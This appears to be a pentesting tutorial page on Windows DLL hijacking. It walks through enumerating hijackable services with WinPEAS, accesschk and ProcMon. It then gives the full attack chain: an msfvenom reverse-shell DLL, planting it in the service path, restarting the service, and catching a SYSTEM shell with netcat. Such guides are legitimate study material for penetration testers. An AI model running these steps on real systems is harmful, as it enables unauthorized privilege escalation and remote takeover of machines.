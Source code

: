 ## 🎯 What Is DLL Hijacking?

When a Windows service or program **searches for a DLL**, it looks in certain folders in a specific order.

If it **can’t find the DLL in the expected path**, it keeps searching — and if **you can place a malicious DLL in one of those locations**, it will get loaded and executed with **the same privileges as the service (e.g., SYSTEM)**.

---

## 🔍 Enumeration (Find Hijackable DLLs)

### 🔧 Tool: WinPEAS.exe

Run `WinPEAS` on the target machine. Look for sections like:

- `Potential DLL Hijacking`
- `Service Executables Missing DLLs`
- `Writable Directories in PATH`

<img width="858" height="198" alt="image" src="https://github.com/user-attachments/assets/882de4ce-cf47-4d21-85c2-579e0ddec46a" />


*(Example: Found service **`dllsvc`**)*

## ✅ Check If You Can Exploit

### Step 1: Check Service Permissions

```bash
accesschk.exe /accepteula -quvw user dllsvc
```

Check for:

- `SERVICE_START`
- `SERVICE_STOP`

If you have these, you can control the service.

<img width="860" height="217" alt="image" src="https://github.com/user-attachments/assets/88469c21-fe26-4431-9bc1-0f8716bf9d6c" />


### **2. Verify Service Control**

```
sc qc dllsvc
```

🔹 **If it runs as `LocalSystem` → Perfect!**

Here you can see the `SERVICE_START_NAME` is LocalSystem it means the service runs with **very high privileges**

<img width="863" height="272" alt="image" src="https://github.com/user-attachments/assets/bf2b8b31-e5eb-4169-96c5-30615709a7d1" />


### **3. Analyze with Process Monitor**

1. Download Process Monitor (ProcMon) from Microsoft
2. Run as Administrator
3. Set filters:
    - Process Name: **`dllsvc.exe`**
    - Operation: **`CreateFile`**
    - Result: **`NAME NOT FOUND`**
4. Start capturing and run:

```
net start dllsvc
```

### **4. Identify Missing DLLs**

In ProcMon, look for:

```
PATH\NOT\FOUND\example.dll
```

Note the exact DLL name and search paths.

<img width="889" height="774" alt="image" src="https://github.com/user-attachments/assets/c3d403b0-3c7d-4e7b-9bad-6761b65ea020" />


### **5. Create Malicious DLL**

Generate a malicious DLL payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f dll -o evil.dll
```

Rename to match the missing DLL (e.g., **`example.dll`**)

### **6. Plant the DLL**

Copy to a writable location that appears earlier in the DLL search order:

```
copy evil.dll "C:\Program Files\VulnerableService\missing.dll"
```

### **7. Trigger the Exploit**

```
net stop dllsvc
net start dllsvc
```

### **8. Catch the Shell**

```
nc -nvlp 4444
```

💥 You should receive a reverse shell with the service's privileges!
